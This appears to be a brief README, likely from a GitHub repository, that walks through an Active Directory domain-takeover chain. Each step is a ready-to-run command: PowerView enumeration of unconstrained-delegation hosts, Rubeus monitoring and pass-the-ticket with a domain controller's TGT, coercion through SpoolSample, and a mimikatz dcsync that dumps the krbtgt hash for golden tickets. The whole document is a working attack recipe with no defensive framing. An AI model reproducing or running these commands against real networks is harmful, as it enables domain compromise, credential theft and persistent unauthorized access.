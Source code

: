 **IMPORTANT NOTE:** ALL THIS HAVE TO BE PERFORMED FROM A POWERSHELL SESSION

1st Enumeration with PowerView
	
 ```Get-DomainComputer -Unconstrained```

2nd Monitoring with Rubeus for a TGT of the CDC01$ computer account
	
```Rubeus.exe monitor /interval:5 /filteruser:CDC01$```

3rd Coerce authentication with SpoolSample of CDC01 to APPSRV01
	
 ```SpoolSample.exe CDC01 APPSRV01```
	
4th The import the recieved TGT with Rubeus
	
 ```Rubeus.exe ptt /ticket:doIFIjCCBR6gAwIBBaEDAgEWo...```

5th(mimikatz) Since CDC01$ is not a local administrator account on the domain controller we cannot perform direct lateral movement. Instead we will perform dcsync(since APPSRV01 has domain replication permissions) to dump the krbtgt NTLM hash to create golden tikcets
	
 ```lsadump::dcsync /domain:contoso.com /user:contoso\krbtgt```
